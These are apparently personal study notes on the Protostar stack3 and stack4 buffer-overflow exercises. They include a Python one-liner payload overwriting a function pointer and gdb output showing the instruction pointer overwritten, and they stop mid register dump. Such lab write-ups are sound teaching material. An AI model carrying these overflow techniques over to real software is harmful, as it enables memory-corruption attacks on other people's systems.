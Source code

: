 # LiveOverflow Binary Exploitation / Memory Corruption

### 0x0D - 0x0E

For this section, we will be attempting stack3, stack4 and stack5

### Answer for Stack Three

- In Stack3, we have a function pointer which we initialise as 0

- A function pointer points to an address in memory, reference [here](https://www.w3schools.com/c/c_pointers.php)

- Based on the code, we need to change the fp variable with our buffer overflow to the memory address of the win() function

- Finding the address if the win() function (you can also use `objdump -t stack4 | win`)

    ```
    (gdb) x win
    0x8048424 <win>:	0x83e58955
    ```

- Final Answer

    `python -c "print('A'*64+'\x24\x84\x04\x08')" | /opt/protostar/bin/stack3`

### Answer for Stack Four

- Without pointer, how do we redirect code execution? Overwriting the eip instruction pointer ;)

- Some information:

    ```
    (gdb) x/wx win
    0x80483f4 <win>:	0x83e58955
    (gdb) r
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program: /opt/protostar/bin/stack4 
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN
    
    Breakpoint 1, main (argc=1162167621, argv=0x46464646) at stack4/stack4.c:16
    16	in stack4/stack4.c
    (gdb) c
    Continuing.
    
    Program received signal SIGSEGV, Segmentation fault.
    0x44444444 in ?? ()
    (gdb) info registers
    eax            0xbffffca0	-1073742688
    ecx            0xbffffca0	-1073742688
    edx            0xb7fd9334	-1208118476
    ebx            0xb7fd7ff4	-1208123404
    esp            0xbffffcf0	0xbffffcf0
    ebp            0x43434343	0x43434343
    esi            0x0	0
    edi            0x0	0
    eip            0x44444444	0x44444444
    eflags         0x210246	[ PF ZF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51